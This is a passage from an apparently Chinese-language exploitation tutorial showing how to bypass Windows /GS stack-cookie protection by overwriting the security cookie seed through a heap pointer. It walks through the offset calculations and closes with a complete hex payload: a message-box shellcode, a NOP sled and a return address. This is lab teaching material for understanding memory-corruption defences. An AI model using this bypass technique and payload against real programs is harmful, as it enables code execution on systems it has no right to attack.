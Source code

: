 这里的 gs.44BBDA 函数（Canary 检查函数）：

[![](assets/1708919791-679360e12c5721d295f7ee2db1bda573.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218121439-3ba94832-ce14-1.png)

好了，现在我们要做的大致思路我们就知道了，现在我们来实行：

### 攻击过程演示：

1.  首先，我们来看看我们申请的堆首地址：  
    因为堆地址是 test 函数的第一个参数，所以应该处于`ebp + 8`的位置：

[![](assets/1708919791-c3791e18d3e0f180ec1c5ab94746334f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218121446-3fcf8b24-ce14-1.png)

堆地址：0x0069BEB0，Security Cookie 种子的地址：0x0050C004，从堆地址到 Security Cookie 种子的偏移：`0x0050C004 - 0x0069BEB0 = 0xFFE7 0154`我们将这个值放到 payload 的 4 ~ 8 的位置，然后`0x90909090 ^ 0x0019FD80 = 0x9089 6D10`，我们将这个值放到 paylaod 的 0 ~ 4 的位置，然后放上我们的 shellcode。  
payload:

```plain
//------------------------------------------------------------
//-----------       Created with 010 Editor        -----------
//------         www.sweetscape.com/010editor/          ------
//
// File    : C:\Users\lenovo\Desktop\漏洞原理\GS\Debug\111.txt
// Address : 0 (0x0)
// Size    : 212 (0xD4)
//------------------------------------------------------------
unsigned char hexData[212] = {
    0x10, 0x6D, 0x89, 0x90, 0x54, 0x01, 0xE7, 0xFF,
    0xFC, 0x68, 0x6A, 0x0A, 0x38, 0x1E, 0x68, 0x63,
    0x89, 0xD1, 0x4F, 0x68, 0x32, 0x74, 0x91, 0x0C,
    0x8B, 0xF4, 0x8D, 0x7E, 0xF4, 0x33, 0xDB, 0xB7,
    0x04, 0x2B, 0xE3, 0x66, 0xBB, 0x33, 0x32, 0x53,
    0x68, 0x75, 0x73, 0x65, 0x72, 0x54, 0x33, 0xD2,
    0x64, 0x8B, 0x5A, 0x30, 0x8B, 0x4B, 0x0C, 0x8B,
    0x49, 0x1C, 0x8B, 0x09, 0x8B, 0x69, 0x08, 0xAD,
    0x3D, 0x6A, 0x0A, 0x38, 0x1E, 0x75, 0x05, 0x95,
    0xFF, 0x57, 0xF8, 0x95, 0x60, 0x8B, 0x45, 0x3C,
    0x8B, 0x4C, 0x05, 0x78, 0x03, 0xCD, 0x8B, 0x59,
    0x20, 0x03, 0xDD, 0x33, 0xFF, 0x47, 0x8B, 0x34,
    0xBB, 0x03, 0xF5, 0x99, 0x0F, 0xBE, 0x06, 0x3A,
    0xC4, 0x74, 0x08, 0xC1, 0xCA, 0x07, 0x03, 0xD0,
    0x46, 0xEB, 0xF1, 0x3B, 0x54, 0x24, 0x1C, 0x75,
    0xE4, 0x8B, 0x59, 0x24, 0x03, 0xDD, 0x66, 0x8B,
    0x3C, 0x7B, 0x8B, 0x59, 0x1C, 0x03, 0xDD, 0x03,
    0x2C, 0xBB, 0x95, 0x5F, 0xAB, 0x57, 0x61, 0x3D,
    0x6A, 0x0A, 0x38, 0x1E, 0x75, 0xA9, 0x33, 0xDB,
    0x53, 0x68, 0x77, 0x65, 0x73, 0x74, 0x68, 0x66,
    0x61, 0x69, 0x6C, 0x8B, 0xC4, 0x53, 0x50, 0x50,
    0x53, 0xFF, 0x57, 0xFC, 0x53, 0xFF, 0x57, 0xF8,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0xBC, 0xFC, 0x19, 0x00 
```